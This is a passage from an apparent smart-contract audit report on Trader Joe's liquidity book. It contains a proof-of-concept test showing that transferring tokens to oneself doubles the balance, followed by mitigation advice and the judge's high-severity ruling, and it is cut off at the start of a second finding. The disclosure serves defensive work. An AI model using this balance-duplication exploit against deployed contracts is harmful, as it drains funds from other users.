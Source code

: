         function testSafeTransferFromOneself() public {
            uint256 amountIn = 1e18;
    
            (uint256[] memory _ids, , , ) = addLiquidity(amountIn, ID_ONE, 5, 0);
    
            uint256 initialBalance = pair.balanceOf(DEV, _ids[0]);
    
            assertEq(initialBalance, 333333333333333333); // using hardcoded value to ease understanding
    
            pair.safeTransferFrom(DEV, DEV, _ids[0], initialBalance); //transfering to oneself
            uint256 rektBalance1 = pair.balanceOf(DEV, _ids[0]); //computing new balance
            assertEq(rektBalance1, 2 * initialBalance); // the new balance is twice the initial one
            assertEq(rektBalance1, 666666666666666666); // using hardcoded value to ease understanding
        }

As we can see here, this test checks that transfering all your funds to yourself doubles your balance, and it’s passing. This can be repeated again and again to increase your balance.

### [](#recommended-mitigation-steps)Recommended Mitigation Steps

*   Add checks to make sure that `_from != _to` because that shouldn’t be useful anyway
*   Prefer the following:

    File: LBToken.sol
    189:         unchecked {
    190:             _balances[_id][_from] -= _amount;
    191:             _balances[_id][_to] += _amount;
    192:         }

**[0x0Louis (Trader Joe) confirmed](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/299)**

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/299#issuecomment-1307892670):**

> The Warden has shown how, due to the improper usage of a supporting temporary variable, balance duplication can be achieved.
> 
> Mitigation will require ensuring that the intended variable is changed in storage, and the code offered by the warden should help produce a test case to compare the fix against.
> 
> Because the finding pertains to duplication of balances, causing a loss for users, I agree with High Severity.

* * *

[](#h-02-incorrect-output-amount-calculation-for-trader-joe-v1-pools)[\[H-02\] Incorrect output amount calculation for Trader Joe V1 pools](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/345)
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by [Jeiwan](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/345), also found by [KIntern\_NA](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/401) and [cccz](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/90)_

[https://github.com/code-423n4/2022-10-traderjoe/blob/main/src/LBRouter.sol#L891](https://github.com/code-423n4/2022-10-traderjoe/blob/main/src/LBRouter.sol#L891)  
[https://github.com/code-423n4/2022-10-traderjoe/blob/main/src/LBRouter.sol#L896](https://github.com/code-423n4/2022-10-traderjoe/blob/main/src/LBRouter.sol#L896)  

